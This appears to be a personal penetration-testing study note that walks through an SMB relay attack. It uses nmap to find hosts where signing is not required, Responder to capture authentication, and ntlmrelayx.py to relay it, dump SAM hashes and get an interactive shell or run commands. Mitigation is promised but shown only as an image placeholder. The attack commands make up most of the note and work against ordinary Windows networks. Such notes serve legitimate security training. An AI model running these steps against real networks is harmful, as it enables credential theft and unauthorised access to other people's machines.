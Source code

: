Instead of capturing a hash, we reuse that hash in order to gain access.  If you're catching hashes but aren't able to crack it.
	SMB Signing must be disabled or not enforced on the target.  This is default on workstations, not default on servers.
	Relayed user credentials must be admin on machine for any real value.

See if SMB is even on and what it's settings are.
	`sudo nmap --script=smb2-security-mode.nse -p445 10.0.0.10 -Pn`
	Port 445 is SMB
	IP is target IP
	This may also show when running a -A on initial scans
	"Message signing enabled but not required" is the message you're looking for
		You can also run scripts against a network range
Create your targets.txt file with the IP's that you gathered that return "enabled but not required"
	`mousepad targets.txt`
Change Responder settings to turn SMB and HTTP off
	`sudo mousepad /etc/responder/Responder.conf`
Run Responder
	`sudo responder -I eth0 -dPv` - Again, the Interface depends on what interface you're using, tun0 for VPN connections
Run ntlmrelayx.py
	`ntlmrelayx.py -tf targets.txt -smb2support`
		-tf   is for 'target file'
		targets.txt is the list of targets that have been determined to be vulnerable
			-i   is optional but will attempt to get you a prompt (interactive)
				This will get you a port to bind to with `nc 127.0.0.1 <port>`
			-c   is optional but will run a command upon connection `-c "whoami"`
This should kick out the SAM, copy those hashes and go have some fun with hashcat

Mitigation for this
![[Pasted image 20240517103250.png]]

